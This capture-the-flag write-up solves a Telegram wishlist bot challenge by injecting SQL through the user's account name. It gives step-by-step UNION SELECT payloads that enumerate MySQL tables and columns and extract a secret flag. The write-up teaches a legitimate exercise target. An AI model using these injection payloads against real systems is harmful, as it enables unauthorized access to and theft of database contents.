


# Day 12: SmartWishList

Santa's being really innovative this year!

Send your wishes directly over your favorite messenger (telegram): @smartwishlist_bot

### Description

In order to participate on this challenge you had to have a Telegram account to be able to chat with the bot.

The wishlist bot supported few commands to manage your wishlist.



You could add a new wish, remove one or let him to list all the wishes on your list.

### Solution

This challenge was the real fun!

I started to play with those commands to figure out what was going on. At some point I had an idea to send some really long wish to break things.

> **pjslf**  
> /addwish aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  
>
> **Santa's Smart Wishlist**  
> (1406, "Data too long for column 'wish' at row 125")

Bingo! This was a proof that the bot ran on top of MySQL database - an obvious hint to SQLi. After countless unsuccessful attempts to find some working injection point in bot's commands there was the last option left. It had to be the Telegram account's name.

To prove my hypothesis I tried to break the SQL query to get a syntax error. I changed my account name to `' OR #` and requested bot to list my wishes.

> **' OR #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1")

It worked well! Now was the time to look around.

> **' UNION SELECT 'db', database() #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> db - smartwishlist

To send longer queries I had to split them in half and use both first and last name which then got concatenated.

> **' UNION SELECT 'tbl', table_name FROM information_schema.tables WHERE table_schema = 'smartwishlist' #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> tbl - SecretStore  
> tbl - User  
> tbl - Wish

Ha! *SecretStore* table was exactly what I was looking for.

> **' UNION SELECT 'col', column_name FROM information_schema.columns WHERE table_name = 'SecretStore' #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> col - flag

Now I had all the information needed to simply pick up the flag from the database.

> **' UNION SELECT 'flag', flag FROM SecretStore #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> flag - HV18-M4k3-S0m3-R34L-N1c3-W15h

Here is a conversation screenshot.



And here is the flag.

```
HV18-M4k3-S0m3-R34L-N1c3-W15h
```
